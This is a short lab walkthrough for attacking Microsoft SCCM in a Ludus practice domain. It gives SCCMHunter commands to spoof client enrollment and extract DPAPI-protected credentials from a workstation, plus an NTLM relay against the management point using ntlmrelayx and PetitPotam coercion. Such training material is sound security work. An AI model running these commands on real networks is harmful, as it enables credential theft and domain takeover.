

# 2 - Cred Lab Walkthrough
## Objective 1 <br> Use SCCMHunter's HTTP Module to Spoof Client Enrollment
### Step 1
Use SCCMHunter's HTTP module with the auto flag to initiate a client enrollment flow
```
python3 sccmhunter.py http -u <username> -p <password> -d ludus.domain -dc-ip <dc-ip> -auto
```
<div align="center">

</div>

## Objective 2 <br> Use SCCMHunter's DPAPI Module to Extract Credentials From the WORKSTATION Host
### Step 1
Use SCCMHunter's DPAPI module to with your credentials to target the WORKSTATION host (10.x.10.11). Use the ***-wmi*** and ***-disk*** flags to change your method of extraction. 
```
python3 sccmhunter.py dpapi -u <username> -p <password> -target <10.x.10.11> -wmi
```
<div align="center">

</div>
<br>

```
python3 sccmhunter.py dpapi -u <username> -p <password> -target <10.x.10.11> -disk
```
<div align="center">

</div>

## Bonus Objective<br> Do You Like NTLM Relays?
### Step 1
Clone the Repository
```
git clone https://github.com/Tw1sm/impacket.git --branch feature/sccm-relay
```

### Step 2 
Configure ntlmrelayx.py to target the Management Point
```
python3 ntlmrelayx.py -t http://10.x.10.14/ccm_system_windowsauth/request --sccm --sccm-device <device-name> --sccm-fqdn sccm-mgmt.ludus.domain --http-port 8080 --sccm-server 10.x.10.15 --sccm-sleep 10 -smb2support
```
<div align="center">

</div>

### Step 3
Execute PetitPotam against a machine within the domain 
```
python3 PetitPotam.py -u <username> -p <password> <listening address> <target-machine>
```

<div align="center">

</div>

### Step 4
Retreive decrypted policy
<div align="center">

</div>
<br>
<div align="center">

</div>
